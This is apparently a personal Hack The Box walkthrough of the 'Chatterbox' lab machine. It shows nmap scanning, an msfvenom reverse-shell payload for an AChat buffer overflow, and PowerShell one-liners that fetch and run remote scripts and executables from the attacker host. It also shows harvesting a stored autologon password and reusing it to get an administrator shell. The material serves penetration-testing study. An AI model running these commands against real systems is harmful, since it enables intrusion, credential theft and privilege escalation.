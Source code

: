 # Chatterbox

10.10.10.74

![chatterbox](chatterbox.jpg)


# Enumerate

## Scan

* Had to make the scan faster to get it to find the ports. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Chatterbox$ nmap -p- --max-retries=1 --min-rate=5000 -Pn 10.10.10.74 -v10
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Chatterbox$ nmap -sC -sV -p9255-9256 10.10.10.74 -Pn 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-20 06:13 EDT
Nmap scan report for 10.10.10.74
Host is up (0.028s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.49 seconds
```

## Enumerate Services

* No achat nmap scans
* Webpage doesn't show anything, start dirbuster, no special wordlists. Gets a bunch of IO errors, probably not right. Maybe version is in the header? Nope. Burp repeater just shows 204 no content response. 
* Found an achat client on github but connecting to the server doesn't seem to do anything. 
* Searchsploit has one vuln:

```
Achat 0.150 beta7 - Remote Buffer Overflow | exploits/windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit) | exploits/windows/remote/36056.rb
```

* Telnet to 56 just shows error when I try and do anything. 

# Access

* Tried to remake the python msfvenom output to do download_exec and exec with powershell one liner. Both were over the limit that msf exploit shows for the payload space. Not sure if that limit is legit. 
* Look into the python script and see the 1100 limit and I can make payloads in that. 
* The download exec payload didn't seem to work right for some reason. 
* Reverse shell payload works. Connect to multi/handler. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Chatterbox$ msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.9 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
* One source also shows how to make it with a download command in the msfvenom payload.   
* Get user.txt

# Escalate

* Run windows-exploit-suggester and winenum

* Winenum didn't respond and then I broke the service I think. 

* Tried MS15-051 taihou, didn't work. 

* Tried MS16-016, didn't work. 

* Nothing available for some others or didn't seem to be good ones. 

* Keep killing listener. Make new .exe and then run that instead of killing my only one and having to reset. 

  * Made another command shell and a powershell connection. 

  ```
  C:\Windows\system32>powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://10.10.14.9/1235.exe','C:\users\alfred\1235.exe')"
  ```

  ```
  C:\Users\Alfred>powershell "iex (New-Object Net.WebClient).DownloadString('http://10.10.14.9/pshelloneline.ps1')"
  ```

* For some reason, the one liner worked better so I used that to connect back and get a powershell reverse

* Downloaded the powerup.ps1 script and ran

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.9/PowerUp.ps1')
Invoke-AllChecks
```

```
DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   :
```

* Winpeas found this as well. 
* Assume that the administrator password is the same. 
  * Can't specify a password with runas
  * There's no psexec on the box. 
  * Create a powershell script to get a new shell. 

```
$username = 'administrator'
$password = 'Welcome1!'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process C:\users\alfred\1235.exe -Credential $credential
```

* Upload and run that script and you get an admin shell. 

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.9/testadmin.ps1','testadmin.ps1')"
powershell -executionpolicy bypass -file testadmin.ps1
```

* For some reason I couldn't get it to download and work right from within my other powershell connection. 
* Could have also just read the file by granting myself file permissions with icacls or cacls: https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html
* Different way to have done the script: https://thecyberjedi.com/chatterbox/

# Lessons

* I kill my shells a lot. Better get a second one at the start. 
